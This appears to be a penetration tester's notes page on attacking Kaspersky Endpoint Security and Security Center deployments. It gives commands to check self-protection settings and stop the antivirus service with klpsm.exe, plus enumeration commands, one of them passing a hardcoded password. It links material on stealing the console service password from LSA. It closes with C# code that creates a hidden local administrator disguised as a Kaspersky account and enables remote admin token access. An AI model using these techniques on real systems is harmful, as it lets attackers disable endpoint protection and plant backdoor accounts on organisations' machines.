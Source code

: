 ```yaml
---
description: Kaspersky Endpoint Security (KES) / Kaspersky Security Center (KSC)
---
```


# KES / KSC

- [https://api-router.kaspersky-labs.com/downloads/search/v3/b2b](https://api-router.kaspersky-labs.com/downloads/search/v3/b2b?productcode=2911379&sites=https%3A%2F%2Fwww.kaspersky.com)




## KES

- [https://nasbench.medium.com/lolbined-using-kaspersky-endpoint-security-kes-installer-to-execute-arbitrary-commands-1c999f1b7fea](https://nasbench.medium.com/lolbined-using-kaspersky-endpoint-security-kes-installer-to-execute-arbitrary-commands-1c999f1b7fea)



### Stop Service

- [https://www.exploit-db.com/docs/english/40433-deactivating-endpoint-protection-software-in-an-unauthorized-manner-(revisited).pdf](https://www.exploit-db.com/docs/english/40433-deactivating-endpoint-protection-software-in-an-unauthorized-manner-(revisited).pdf)

Check if KES Self-Defense is enabled:

```
PS > (Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\protected\KES\settings" -Name "EnableSelfProtection").EnableSelfProtection
```

Check if KES external management of system services is allowed:

```
PS > (Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\protected\KES\settings" -Name "AllowServiceStop").AllowServiceStop
```

If `EnableSelfProtection` is **0** and `AllowServiceStop` is **1**, then it's possible [to manipulates KES application from the command line](https://support.kaspersky.com/KESWin/11.1.0/en-us/178723.htm) via [klpsm.exe](https://www.pconlife.com/viewfileinfo/klpsm-exe/):

```
Cmd > cd "C:\Program Files (x86)\Kaspersky Lab\Kaspersky Endpoint Security for Windows"
Cmd > klpsm.exe stop_avp_service
Cmd > klpsm.exe start_avp_service
```



### Remove Product

- [https://support.kaspersky.com/common/uninstall/1464](https://support.kaspersky.com/common/uninstall/1464)
- [https://support.kaspersky.com/14674](https://support.kaspersky.com/14674)




## KSC

- [https://www.kaspersky.ru/small-to-medium-business-security/downloads/endpoint](https://www.kaspersky.ru/small-to-medium-business-security/downloads/endpoint)
- [https://support.kaspersky.com/KSC/13/ru-RU/158830.htm](https://support.kaspersky.com/KSC/13/ru-RU/158830.htm)
- [https://habr.com/ru/companies/bastion/articles/598769/](https://habr.com/ru/companies/bastion/articles/598769/)

| Key                      | Value                                    |
|--------------------------|------------------------------------------|
| Default MMC Port         | 13291                                    |
| Remote Installation Path | `%WINDIR%\Temp\KAV Remote Installations` |



### Enumeration

```
Cmd > netstat -ano | findstr 13000
Cmd > "C:\Program Files (x86)\Kaspersky Lab\NetworkAgent\klnagchk.exe"
Cmd > reg query HKLM\SOFTWARE\WOW6432Node\KasperskyLab\Components\34\1103\1.0.0.0\Statistics\AVState /s /v Protection_AdmServer
PS > Get-ItemProperty HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\Components\34\1103\1.0.0.0\Statistics\AVState -Name Protection_AdmServer
Cmd > C:\PROGRA~2\KASPER~1\KASPER~1\klsql2.exe -i query.sql -u administrator -p "Passw0rd!" -o query.xml
```



### KlScSvc in LSA

- [https://telegra.ph/Crackmapexec-beryot-sluzhebnyj-parol-konsoli-Kaspersky-Security-Center-12-08](https://telegra.ph/Crackmapexec-beryot-sluzhebnyj-parol-konsoli-Kaspersky-Security-Center-12-08)



### Add Local Admin

{% code title="KSCTools.cs" %}
```csharp
using System;
using System.DirectoryServices;
using Microsoft.Win32;

namespace KSCTools
{
    class AccountManagement
    {
        static void Main()
        {
            try
            {
                DirectoryEntry AD = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntry NewUser = AD.Children.Add("KLAdmin", "user");
                NewUser.Invoke("SetPassword", new object[] { "Passw0rd!" });
                NewUser.Invoke("Put", new object[] { "Description", "Kaspersky Local Administrator" });
                NewUser.CommitChanges();
                DirectoryEntry grp = AD.Children.Find("Administrators", "group");
                grp?.Invoke("Add", new object[] { NewUser.Path.ToString() });

                using (RegistryKey key = Registry.LocalMachine.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"))
                {
                    key?.SetValue("LocalAccountTokenFilterPolicy", 1, RegistryValueKind.DWord);
                }
            }
            catch { }
        }
    }
}
```
{% endcode %}
